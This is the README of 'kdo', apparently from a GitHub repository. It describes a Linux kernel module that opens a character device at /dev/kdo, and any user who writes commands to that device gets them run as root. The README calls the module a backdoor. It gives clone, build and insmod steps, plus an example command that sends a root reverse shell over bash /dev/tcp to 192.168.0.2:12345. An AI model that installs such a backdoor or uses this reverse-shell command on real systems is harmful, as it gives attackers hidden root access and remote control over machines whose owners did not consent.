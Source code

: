 kdo
===
Kernel-level sudo. This is a very simple LKM that creates a character device at `/dev/kdo` to which
commands can be written and executed via `call_usermodehelper`, effectively creating a backdoor for
unprivileged users to execute commands as root.


Installation
------------
**1**. Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2**. Build the module
```bash
cd kdo
make
```

**3**. Insert the module 
```
sudo insmod kdo.ko
```


Command Execution
-----------------
Simply write the command arguments to `/dev/kdo`. Because the module actually treats this internally
as an argument to `/bin/sh -i -c`, redirection and other functionalities are also supported. For
example, to send a root reverse shell to `192.168.0.2:12345`, run:

```bash
echo 'bash -i &> /dev/tcp/192.168.0.2/12345 0>&1' > /dev/kdo
```
